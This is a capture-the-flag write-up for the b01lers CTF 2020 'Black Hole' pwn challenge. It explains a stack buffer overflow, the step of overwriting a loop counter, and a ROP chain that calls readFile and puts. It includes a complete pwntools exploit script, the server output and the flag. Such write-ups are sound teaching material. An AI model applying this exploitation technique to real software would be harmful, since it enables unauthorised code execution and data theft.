


# b01lers CTF 2020

## Black Hole

> 200
> 
> Dave took a nap while flying home last Tuesday. When he woke up he was stuck. Save Dave
>
> `nc pwn.ctf.b01lers.com 1005`
>
> [9fb7f9675b14a3c60d143ee72c438f86](black-hole.tgz)
> 
> Note: Challenge is running in an Ubuntu 18.04 docker container.
>
> Author: nsnc


Tags: _pwn_

### Analysis

#### Decompile with Ghidra, cutter.re, r2, etc...



#### Checksec

```
[*] '/pwd/datajerk/b01lersctf/black-hole/black-hole'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Lines 11-16 do not limit input to 140 char (line 5) + _No stack canary found_ + _No PIE_ = **stack-based buffer overflow + ROP**.

#### More Decompiling


This looks both promising and useless at the same time.  `win` may read the flag, but it does not print it.  At least we know the name of the flag file.  Moving on...

#### Yet More Decompiling 



`readFile` will read the first `0x32` char of any file into an allocated buffer and then return a pointer (in `rax`) to that buffer.  This we can use.


### Exploit

#### Attack Plan

1. Overflow buffer to gain control of `rip`.  This will be a little trickier than a simple overflow to overwrite the base pointer and return address--`local_c` is in the way.
2. Set return address with a `pop rdi; ret` gadget to pop the address of `./flag.txt` into `rdi`.
3. Set #2's return address with `black-hole`'s `readFile` function.  `rdx` will have the address of the buffer holding the flag.
4. Set #3's return address with `mov rdi, rdx; call puts`.
5. Send payload, get the flag.


#### Overflow buffer to gain control of `rip`

```
  char local_98 [140];
  int local_c;
  
  ...
  
  local_c = 0;
  read(0,local_98,1);
  while (local_98[local_c] != '\n') {
    local_c = local_c + 1;
    read(0,local_98 + local_c,1);
  }
  local_98[local_c] = '\0';
```

The above loop reads one char at a time unless that char is a `\n`.  There are no other conditions to prevent a stack-based overflow.  However, `local_c` _is_ in the way.

```
#!/usr/bin/env python

from pwn import *
import sys

### overload buffer
payload = 140 * 'A'
payload += p8(151)
```

After writing 140 `A`s we need to consider what will happen to `local_c`, `local_c` is next in the stack as a 32-bit `int`.  Writing `151` will change the value to, well, `151`.  On the next pass of the loop `local_c` will be incremented to `152` and continue to accept our input.  There's no need to write out any zeros since `local_c` was initialized to `0x00000000` at the start of the loop.

**_Why 151?_**

```
Stack:
AAAAAAAA <= 0-7
...
AAAAAAAA <= 135
AAAA0000 <= 143
BBBBBBBB <= 151 Base Pointer
RRRRRRRR        Return Address
```

The 140 char buffer and 4 byte int (0-143) are just above the base pointer and the return address, by setting `local_c` to `151` at the `140` iteration we're moving the next read to `152` (`local_c` is incremented by one before the read).

The other option is `143`, and then 8 bytes to overwrite the base pointer.  Either will do, the difference will be a SIGSEGV vs. SIGBUS.  I'm not going to tell you how to live your life.


#### Set return address with a `pop rdi; ret` gadget, then address of `./flag.txt`

```
### find and add pop rdi gadget
context.clear(arch='amd64')
rop = ROP('black-hole')
try:
    rop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)
payload += p64(rop_rdi)
```

With `local_c` set to 151 the next 8 bytes written to the stack will overwrite the return address of `main`.  The above will find a ROP gadget that will pop the next stack item into `rdi` and then return (a.k.a pop the next item off the stack into `rip`).

We need this gadget to load `rdi` with the address to the text `./flag.txt` from the binary, so add that to the stack next:

```
### find location of ./flag.txt
binary = ELF('black-hole')
flag_txt = next(binary.search('./flag.txt'))
payload += p64(flag_txt)
```

#### Call `black-hole`'s `readFile` function and return pointer into `rax`

```
### readFile with pointer in rax
readFile = binary.symbols['readFile']
payload += p64(readFile)
```

Since _No PIE_, finding location with _search_ and _symbols_ is pretty trivial.

At this point in the payload `rop rdi; ret` will load up `rdi` with the `./flag.txt` string address and then call `readFile` returning the address to the flag contents in `rax`.  All that is left is to print it.


#### Set return address with `mov rdi, rdx; call puts`

Most code should have a `puts` statement or two.  Even if the coder used all `printf`, a `printf` with a static string will be optimized to `puts`.

We just need to find one:

```
# objdump -M intel -d black-hole | grep -B1 puts

0000000000400730 <puts@plt>:
  400730:	ff 25 f2 18 20 00    	jmp    QWORD PTR [rip+0x2018f2]        # 602028 <puts@GLIBC_2.2.5>
--
  4009bc:	48 8d 3d 3f 04 00 00 	lea    rdi,[rip+0x43f]        # 400e02 <_IO_stdin_used+0x22>
  4009c3:	e8 68 fd ff ff       	call   400730 <puts@plt>
--
  400a60:	48 8d 3d c7 03 00 00 	lea    rdi,[rip+0x3c7]        # 400e2e <_IO_stdin_used+0x4e>
  400a67:	e8 c4 fc ff ff       	call   400730 <puts@plt>
--
  400bd0:	48 89 c7             	mov    rdi,rax
  400bd3:	e8 58 fb ff ff       	call   400730 <puts@plt>
```

`0x400bd0` looks like exactly what we need.  Load `rdi` with the value from `rax` (pointer to flag text) and call `puts`:

```
payload += p64(0x400bd0)
```

#### Send payload, get flag

```
### get the flag
#p = process('./black-hole')
p = remote('pwn.ctf.b01lers.com',1005)
p.recvuntil('Name: ')
p.sendline(payload)
p.recvuntil('> ')
for i in range(8):
    p.sendline('d')

### let it all out man
p.stream()
```

The "game" prompts you for your name, that is where we send our payload to overload the stack, then we need to _lose_ the game to _win_ the game.  To do that we need to send 8 `d`s (only `a` and `d` does anything, read the code, play the game).

Output:

```
Throttle: 3
Gravity: 17
O     =>                                           |
> You lose AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb8!
Sorry, you died!
pctf{th1s_l1ttle_man0uver_just_c0st_us_51_y34r5}
```

Flag: `pctf{th1s_l1ttle_man0uver_just_c0st_us_51_y34r5}`


